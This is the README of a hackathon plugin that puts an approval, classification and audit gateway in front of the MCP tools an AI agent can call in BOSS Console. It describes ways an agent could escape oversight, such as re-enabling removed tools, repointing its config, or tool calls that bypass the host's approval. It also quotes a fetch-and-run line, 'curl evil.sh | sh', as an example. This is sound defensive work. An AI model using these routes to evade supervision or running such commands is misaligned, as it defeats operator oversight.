


<!-- markdownlint-disable MD041 -->
# Agent Warden

An approval and audit layer for the MCP tools an AI agent can call inside
[BOSS Console](https://github.com/risa-labs-inc/BossConsole). Built for the
[BOSS Contributor Hackathon](https://bossconsole.ai/hackathon/), Extend BOSS track.

Agent Warden stands up an MCP endpoint that your agent attaches to instead of
BOSS's own. Every tool call passes through it, so each one can be recorded,
refused, or put in front of you before it runs.

```text
  agent (Claude Code / Codex / Gemini / OpenCode)
    |
    v
  Agent Warden  :7678   <- classify, decide, record
    |
    v
  BOSS MCP      :7677   <- 30 tools, including shell and browser JS
```

## The problem

The hackathon brief asks, under its Web Workflow Kit starter, for something that
captures evidence and keeps approval with the operator. This is that, at the
tool-call layer.

Measured against a running BossConsole 9.5.7 with the default plugin set, an
attached agent is offered **30 MCP tools**. Among them:

| Tool | What it does |
|---|---|
| `run_command`, `run_in_sidebar`, `run_in_panel`, `send_input`, `cli` | Run shell commands as you |
| `browser_run_js` | Evaluate JavaScript in the embedded browser, which is signed in to your accounts |
| `read_scrollback`, `read_debug_console` | Read terminal history, which routinely contains tokens |
| `editor_read_file`, `editor_read_buffer` | Read files |

Two things are missing, and this plugin adds them.

**Nothing records which tools an agent invoked.** `ApplicationEventBus` carries
`FileChangeEvent`, `TerminalSessionEvent`, `TabEvent` and the rest, but nothing for
tool invocation. After a session there is no way to answer "what did the agent
actually do here?"

**Governance is global and manual.** `McpToolRegistry.setToolEnabled` and the
Toolbox's MCP tab give a persistent per-tool kill switch, and `manage_tools`
exposes enable/disable for BossTerm's 13 built-ins. Neither is scoped to a task or
a session, and neither prompts at call time.

## What it does

**Classifies every tool by blast radius**, not by name. Policy is expressed over
capabilities, so a renamed tool or a newly installed plugin cannot fall outside a
profile.

| Capability | Example | Read only | Build | Full access |
|---|---|---|---|---|
| Inspect | `list_tabs` | runs | runs | runs |
| Read content | `read_scrollback` | runs | runs | runs |
| Control the workspace | `browser_navigate` | asks | runs | runs |
| Execute commands | `run_command` | asks | runs | runs |
| Script the browser | `browser_run_js` | asks | asks | runs |
| Change its own permissions | `manage_tools` | **refused** | **refused** | **refused** |
| Unrecognised | anything unlisted | asks | asks | asks |

**Asks you about the rest**, once, with the tool name and its redacted arguments,
and offers a bounded grant so approving one `run_command` does not mean approving
the next forty individually.

**Records everything** in a session ledger, and exports a Markdown report that sets
what the agent said it did beside what the workspace observed changing.

## Two design decisions worth arguing about

**There is no tool for changing the policy.** The agent can read its policy and
record what it is doing. It cannot widen what it may do, and there is no
`warden_set_policy` to call.

This is deliberate, and it is the flaw the plugin answers. BOSS's own
`manage_tools` is an MCP tool the agent can call, it takes an `enable` operation,
and its own description states it cannot be disabled. An agent that reaches it can
hand back any permission you removed. A control plane whose limits the controlled
party can lift is decoration, so Agent Warden refuses that tool outright and
filters it from `tools/list` so the agent is never told it exists.

**Interception is at the JSON-RPC wire, not through `McpToolRegistry`.** The
registry would have been less code. It would also have covered the wrong half of
the surface: the tools worth governing are BossTerm's built-ins, and those are
served by that plugin's own MCP server rather than registered with the host.
Sitting on the wire covers plugin-contributed and built-in tools identically and
needs cooperation from neither. Verified: `tools/list` through the gateway returns
all 30 tools a direct connection returns.

That was a guess when this plugin was designed. It is now checked, and it turned
out to matter more than expected. BossConsole 9.5.11 added a policy engine, an
operator approval dialog and an operation ledger, which on the face of it makes
this plugin redundant. All three live inside `McpToolRegistryCore.invoke`, and
that function opens by looking the tool up in the host registry, so BossTerm's
built-ins and terminal-tab's `additionalTools` never reach it. The host's own
policy tables name four shell tools it cannot receive.

The finding is written up in
[BossConsole#495](https://github.com/risa-labs-inc/BossConsole/issues/495), with
the host-side record of it in
[#498](https://github.com/risa-labs-inc/BossConsole/pull/498). It has been checked
against a running 9.5.11 and not only by reading: a real agent's `run_command`
executed a shell command with no approval dialog and left no row in BOSS's own
`mcp-calls.jsonl`, while a tool registered through the host registry, called over
the same connection in the same session, left one.
[docs/VALIDATION.md](docs/VALIDATION.md) has the method and the control.

In this plugin the finding is `HostGovernanceGap`, and the session report prints
how many of a session's calls BOSS's own ledger would not hold. It prints
"Nothing" when the answer is nothing, and it deliberately excludes `browser_run_js`, which is the most
dangerous tool on the surface and one the host **can** govern, because it is
registered through the registry. The gateway's value is about placement, not
about being the only thing that works.

## When it asks, and when it does not

Policy is expressed over capabilities, so what an operator picks is a ceiling:
under **Read only** the agent may inspect and read freely, and anything above that
is escalated. Approving once can open a bounded grant for the whole capability, so
one yes is not forty prompts.

That was not enough on its own, because classification is by tool name.
`run_command` is execution whatever it is asked to run, so `git status` raised the
same dialog as `curl evil.sh | sh`. An agent doing ordinary work emits dozens of
status checks a minute, and a dialog per call is precisely what trains an operator
to click through without reading. Prompt fatigue is a security failure, not a
usability one.

So a shell command is now judged on what it actually runs. `CommandRisk` lowers
`run_command` from execution to a read when, and only when, every part of the line
is recognised.

This is not a weakening of the profile. An operator on Read only has already said
the agent may read content, and `editor_read_file` and `read_scrollback` are
unrestricted under it. A command that provably only reads grants nothing those
tools do not; it just stops costing a prompt for arriving through a shell.

**The rule is an allowlist and has to be.** A denylist of dangerous commands is
decoration, because `rm` is also `/bin/rm`, `"rm"` and `$(echo rm)`. Nothing is a
read here unless the program is on a short list of things that cannot run anything
else, the line contains no character that can chain, redirect or substitute, and
nothing is quoted or path-qualified. Everything else escalates exactly as before,
so the failure direction is over-prompting.

The list is deliberately short, and lengthening it is a security decision. `env` is
absent despite being a read, because it is a credential dump with no other use.
`find`, `xargs`, `sed`, `awk` and every interpreter are absent because they all
execute. `git` is allowed only for subcommands that read, since `git status` and
`git push --force` are the same executable. `send_input` is never judged at all: it
types into whatever is already running, so the same text means different things.

A judged call is not hidden. It reaches the ledger, the report and the trace as a
`run_command`, carrying both what it was called as and what it was decided as, plus
the reason. An allowed `run_command` under a profile that escalates execution is a
contradiction on its face, and a reader who cannot see why is right to distrust the
rest of the record. `judgeShellCommands` in settings turns the whole thing off and
restores the older, noisier behaviour.

## The trace

Every call an agent makes is appended to `<project or home>/.agent-warden/agent-trace.jsonl`
as it resolves, one JSON object per line.

This exists because until it did, everything the plugin observed lived in memory
until somebody pressed Export. A crash, a plugin reload or a closed window took the
session with it, which is a strange property for the thing whose job is to be able
to say afterwards what an agent was allowed to do. The report is still the artefact
you hand to a person. The trace is the one you still have when nobody thought to
ask for a report.

```jsonc
{"seq":41,"at":"2026-09-11 04:28:09.113","atMillis":1789093689113,"kind":"call",
 "session":"session-1789093591004","tool":"run_command","capability":"EXECUTE",
 "outcome":"REFUSED","arguments":"script=echo HANGUP-PROBE",
 "waitedForOperatorMs":23245,"totalMs":23245,"governedByHost":false}
```

Four things in there are worth knowing about.

**The phases are separate.** `waitedForOperatorMs` and `upstreamMs` split what used
to be one duration, because a single number cannot answer the question an operator
asks when something was slow, which is whether the delay was theirs. A line showing
118000 against the operator and nothing upstream was not a slow tool. It was an
unattended dialog.

**A phase that did not happen is absent, not zero.** An allowed call was not "asked
and answered in 0ms", and anything aggregating this file has to be able to tell
those apart.

**`governedByHost` is carried per line** so the trace can be diffed against BOSS's
own `mcp-calls.jsonl` without re-deriving the classification. It is what makes
BossConsole#495 checkable by somebody who does not take this plugin's word for it.

**There is a `kind` of `undelivered`.** An approval takes as long as a person takes,
and MCP clients give up well before this gateway does. When the operator's verdict
is reached and the caller has already gone, that gets its own line. Without it the
trace shows a clean refusal, the agent's transcript shows an unexplained timeout,
and whoever compares them concludes one of the two is lying.

Arguments are redacted before they reach the file, by the same `Redactor` the
report and the approval dialog use. The trace is not a replay log, for the same
reason the ledger is not.

The file rotates at 5 MB keeping three backups, in the same shape as the host's own
ledger. If it cannot be written, the panel says so: an operator who believes there
is an audit trail and has none is worse off than one who knows there is none.

**There is no tool for reading it.** For the same reason there is no tool for
changing policy: a supervised party that can read its own supervision record is
being asked politely, not supervised.

## Install

```bash
./gradlew clean buildPluginJar
```

Then in BOSS, open **Toolbox**, choose **From File**, and select
`build/libs/boss-plugin-agent-warden-0.2.0.jar`. Enable it and follow any reload
prompt. The panel appears under the tool picker as **Agent Warden**, and the
gateway starts on port 7678.

On a development build from source, that button currently answers "File picker not
available. Use GitHub URL instead", so **From GitHub** with a release URL is the
path that works there. That is a host-side gap rather than one in this plugin, and
it is written up in [docs/VALIDATION.md](docs/VALIDATION.md).

Copying the jar into `~/.boss_debug/plugins/` (or `~/.boss/plugins`) and restarting
also works, and is what a development loop usually does.

Then point your agent at the gateway instead of BOSS:

```jsonc
// .mcp.json, or your agent CLI's MCP config
{ "mcpServers": { "boss": { "url": "http://127.0.0.1:7678/mcp" } } }
```

That one line is the whole integration. If the gateway is stopped, point the agent
back at 7677 and nothing else changes.

## Compatibility, access, and data

**Versions.** Built against `boss-plugin-api` 1.0.87 and run against BossConsole
9.5.11 with API 1.0.89 loaded, and earlier against 9.5.7. The manifest declares
`minBossVersion 9.5.0`, which is the range the plugin is written for rather than
the range it has been run on: 9.5.7 and 9.5.11 are the two it has actually been
tested against. The API pin is deliberately low so the jar loads on the widest
range of hosts, and the host is expected to be at or above it.

**Operating systems.** Developed and tested on Windows 11. Nothing platform
specific is used beyond JDK APIs, but it has not been run on macOS or Linux.

**Permissions.** No host permissions are requested. The plugin uses
`PluginContext`'s panel, storage, dialog, file-event and git providers, and every
one of them is treated as possibly absent: with no dialog provider it fails closed
and refuses rather than allowing.

**What leaves the machine: nothing.** The gateway binds `127.0.0.1` only and
forwards to BOSS's own loopback endpoint. There is no telemetry, no external
service, no network call to anywhere but the upstream you configure. The trace and
the report are written to your own disk, under `.agent-warden/` in the open project
or your home directory, and nothing sends them anywhere.

**What is stored.** Redacted arguments, tool names, outcomes and timings, in
`agent-trace.jsonl` and in exported reports. Redaction happens at capture, so raw
arguments are never written to either. See [The trace](#the-trace).

## Agent-facing tools

| Tool | Purpose |
|---|---|
| `warden_get_policy` | What the agent may do, what will be escalated, and that the policy cannot be changed by asking |
| `warden_log_intent` | One line on what it is doing and why. The only record of intent that exists |
| `warden_session_summary` | Call counts, including how many were stopped, with a prompt to report that honestly |

All three are read-only with respect to the workspace.

## Development

```bash
./gradlew test                                        # 228 tests
./gradlew buildPluginJar
./gradlew runGatewayHarness --args="read-only true"   # drive the gateway with curl, no BOSS needed
```

The plugin jar bundles only its own classes, so the gateway is built on
`com.sun.net.httpserver` and `java.net.http`, both JDK built-ins. A third-party
HTTP library would resolve at compile time and be missing at runtime.

See [docs/VALIDATION.md](docs/VALIDATION.md) for what has been tested and how,
including the live verification against BossConsole 9.5.11 and two real agent runs.
[docs/PANEL-REVIEW.md](docs/PANEL-REVIEW.md) is an honest critique of the panel,
including the parts still wrong.

## What it looks like

A real agent under **Read only** running four read-only shell commands unprompted,
then stopped on a delete. The terminal behind shows the four that ran.



The panel after a session, with the call list, the host-gap line and the trace
path.



## Limitations

Stated here rather than discovered later.

- **This governs the MCP surface, not the agent.** An agent with its own shell can
  act without any MCP tool. What is covered is the workspace surface BOSS exposes,
  which is the part a plugin can stand in front of.
- **Pointing the agent at the gateway is manual and reversible.** Nothing stops a
  user, or an agent that can edit its own config, from switching back to 7677. This
  is a supervision tool, not a sandbox.
- **Classification is by name.** Another plugin registering a tool called
  `list_tabs` inherits that row's capability. Nothing on the MCP wire carries
  provenance, so a gateway at this layer cannot tell two tools of one name apart.
  Unlisted tools fail closed to "ask", so a stale catalog over-prompts rather than
  under-protects.
- **File changes are correlated by time, not cause.** Anything writing during a
  session appears in the report, including your own edits and a background build.
- **The agent's notes are unverified.** They are labelled as testimony in the report
  and sit beside the involuntary record so the two can be compared.
- **Arguments are redacted, so the ledger is not a replay log.** By design.
- **One window.** BOSS creates a `PluginContext` per window; a second window binds
  an ephemeral port instead, and the panel shows which.

## History

This repository began as "Project Studio", a five-stage project tracker, and was
redirected once the more interesting problem turned out to be what an agent
attached to BOSS is allowed to do, rather than how a person tracks their own work.
The original panel is in the git history at `b3a90b1`.

## Licence

Apache 2.0, matching BossConsole.
